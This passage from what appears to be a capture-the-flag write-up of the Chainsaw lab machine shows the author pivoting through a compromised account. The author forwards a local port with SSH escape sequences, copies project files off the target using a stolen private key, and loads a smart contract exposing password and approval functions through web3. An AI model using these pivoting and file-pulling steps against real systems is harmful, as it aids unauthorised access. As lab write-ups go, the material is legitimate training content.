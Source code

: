 
If I try to connect, I see the same thing I saw on port 9810 during original
enumeration:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ curl -s 127.0.0.1:63991
    400 Bad Request
    

I’m in the same position I was originally in, with the information I need to
connect over `web3`. I’ll use [SSH Control Sequences](https://pen-
testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-
control-sequences) to forward 63991 on my local box through SSH to 63991 on
Chainsaw:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$
    ssh> -L 63991:127.0.0.1:63991
    Forwarding port. 
    

I’ll also copy all the files back to my host:

    
    
    root@kali# scp -i ~/id_rsa_chainsaw_bobby bobby@10.10.10.142:/home/bobby/projects/ChainsawClub/* .
    address.txt                                                                          100%   44     2.4KB/s   00:00
    ChainsawClub                                                                         100%   16KB 474.7KB/s   00:00                                                                        
    ChainsawClub.json                                                                    100%  123KB   2.8MB/s   00:00
    ChainsawClub.sol                                                                     100% 1164    83.3KB/s   00:00 
    

Now I can connect with a Python terminal again, and load the json and address:

    
    
    >>> infura_url = "http://127.0.0.1:63991"
    >>> web3 = Web3(Web3.HTTPProvider(infura_url))      
    >>> print(web3.isConnected())
    True
    >>> with open('ChainsawClub.json') as f:
    ...     wp = json.load(f)
    ...
    >>> wp['abi']
    [{'constant': True, 'inputs': [], 'name': 'getUsername', 'outputs': [{'name': '', 'type': 'string'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'string'}], 'name': 'setUsername', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}, {'constant': True, 'inputs': [], 'name': 'getPassword', 'outputs': [{'name': '', 'type': 'string'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'string'}], 'name': 'setPassword', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}, {'constant': True, 'inputs': [], 'name': 'getApprove', 'outputs': [{'name': '', 'type': 'bool'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'bool'}], 'name': 'setApprove', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}, {'constant': True, 'inputs': [], 'name': 'getSupply', 'outputs': [{'name': '', 'type': 'uint256'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': True, 'inputs': [], 'name': 'getBalance', 'outputs': [{'name': '', 'type': 'uint256'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'uint256'}], 'name': 'transfer', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}, {'constant': False, 'inputs': [], 'name': 'reset', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}]
    >>> with open('address.txt','r') as f:
    ...     address = f.read().strip()
    ... 
    >>> address
    '0xea44d62eA6e98b7B8301B8c14556C04d186EECA2'
    
